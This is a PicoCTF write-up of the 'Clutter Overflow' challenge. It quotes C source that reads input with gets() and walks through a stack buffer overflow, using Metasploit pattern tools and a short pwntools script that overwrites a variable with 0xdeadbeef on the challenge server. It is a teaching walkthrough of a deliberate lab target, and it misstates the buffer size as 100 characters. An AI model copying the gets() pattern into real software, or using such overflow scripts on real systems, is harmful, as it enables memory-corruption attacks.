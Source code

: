 <h1><b>Clutter Overflow</b> Challange from PicoCTF</h1>
<h2>Writup</h2>
Video Writup: https://www.youtube.com/watch?v=rdWtcwosHrk <br>
challange link: https://play.picoctf.org/practice/challenge/216?category=6&page=1 <br>
points : 150

<b>Description</b>: Clutter, clutter everywhere and not a byte to use. 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
From the very first look, we can see at line number 50 gets function is used, which is vulnerable for Buffer overflow vulnerability, so what program doing is it declared global variable GOAL 0xdeadbeef, and code = 0 in the main function. first, it will ask for the user input, whose size expected by the program should be max. 100 char. now there is an if condition which checks code == GOAL ( which is false from the declaration of variables from the program), if it is true it will cat the flag.txt, otherwise, it will exit after printing code value.

![](1st.png)

If we put 300 char long string as an input, the value of the code variable get overwritten, so what we can do is we can try to overwrite the value of the code variable in the stack to 0xdeadbeef, so if the condition becomes true and the program will cat the flag.txt

<h1><b>EXPLOITATION</b></h1>
for overwriting the value of variable code, we must know after putting how many numbers of characters, the value of code is overwritten. for that, we can use Metasploit-framework's exploits. creating pattern string of 300 char:

> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300

<b>output</b>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
so lets put this pattern string in chall as an input

![](2nd.png)

so after putting above pattern, value of code variable become 0x6a41396941386941 , to find the exact match of this sting within the pattern we will use another
metasploit-framework's exploit

> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 6a41396941386941

![](3rd.png)

So the value of code varible is overwritten by the char we had put after putting 264 chars.

to confirm this, what we can do is, we can give a payload of 'A'*264 + 'BCDEF' to the program, so if code variable value comes to 0x4645444342 (which is the value 
of 'BCDEF' in little endian hex), then our exploit gave the correct result.
![](4th.png)
So from the above, we have confirmed that we can overwrite the value of code variable with the chars comes after putting 264 chars.
so we can write an small pwn exploit, to do this

```
import pwn

host = "mars.picoctf.net"
port = 31890
s = pwn.remote(host,port)
s.recvline()
s.recvline()
s.recvline()
payload = b'A'*264 + pwn.p64(0xdeadbeef)
s.sendline(payload)
s.interactive()
s.close()
```
SO what we have did here is, we establish a remote tcp connection with server, then we did s.recvline() to recieve the banner and question. 
then we crafter our payload, since we need to make the if condition true to get the content of flag.txt, we have added pwn.p64(0xdeadbeef) after 264 char.
so it will make the value of code variable same as GOAL variable. after sending the payload, we will have our flag.
![](5th.png)
<br>
  <b> Thank You</b>
                                                                                                              
